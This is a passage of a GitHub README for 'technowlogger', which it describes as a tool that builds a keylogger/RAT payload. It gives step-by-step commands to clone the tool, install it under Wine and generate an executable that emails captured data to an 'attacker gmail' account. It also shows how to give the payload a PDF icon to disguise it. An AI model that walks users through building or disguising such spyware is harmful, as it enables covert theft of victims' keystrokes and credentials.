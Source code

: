 - [x] If your payload is unable to execute, then specify --debug to run exe on foreground with CMD

## Important
On **30 May 2022**, Google has **removed less secure apps feature**, so instead of Gmail Password:
- Enable 2FA on your attacker gmail
- Create App Specific Password
- Use that `app specific password`, while creating payload. 
- How to Create App Specific Password: [Click Here](https://support.google.com/mail/answer/185833?hl=en) 


## Tested On
[![Kali)](https://www.google.com/s2/favicons?domain=https://www.kali.org/)](https://www.kali.org) **Kali Linux - ROLLING EDITION**

[![Windows)](https://www.google.com/s2/favicons?domain=https://www.microsoft.com/en-in/windows/)](https://www.microsoft.com/en-in/windows/) **Windows 10**

[![Windows)](https://www.google.com/s2/favicons?domain=https://www.microsoft.com/en-in/windows/)](https://www.microsoft.com/en-in/windows/) **Windows 8.1 - Pro**

[![Windows)](https://www.google.com/s2/favicons?domain=https://www.microsoft.com/en-in/windows/)](https://www.microsoft.com/en-in/windows/) **Windows 7 - Ultimate**

## Prerequisite
- [x] Python 3.X
- [x] Few External Modules

## How To Use in Linux
```bash
# Navigate to the /opt directory (optional)
$ cd /opt/

# Clone this repository
$ git clone https://github.com/PushpenderIndia/technowlogger.git

# Navigate to technowlogger folder
$ cd technowlogger

# Installing dependencies
$ bash installer_linux.sh

*** Note When The Python Installer DialogBox Appear while executing installer_linux.sh ***
    * Click on custom install 
    * Select Path to : C:/Python37-32
    ### So that the python is installed in this path (Inside Wine) : ~/.wine/drive_c/Python37-32

# If you are getting any errors while executing installer_linux.sh, try to install using installer_linux.py
$ python3 installer_linux.py

$ chmod +x technowgen.py
$ python3 technowgen.py --help

# Making Payload/RAT
$ python3 technowgen.py -e youremail@gmail.com -p YourEmailPass -l -o output_file_name --icon icon_path

Note: You can also use our custom icons from the icon folder, just use them like this  --icon icon/pdf.ico
```
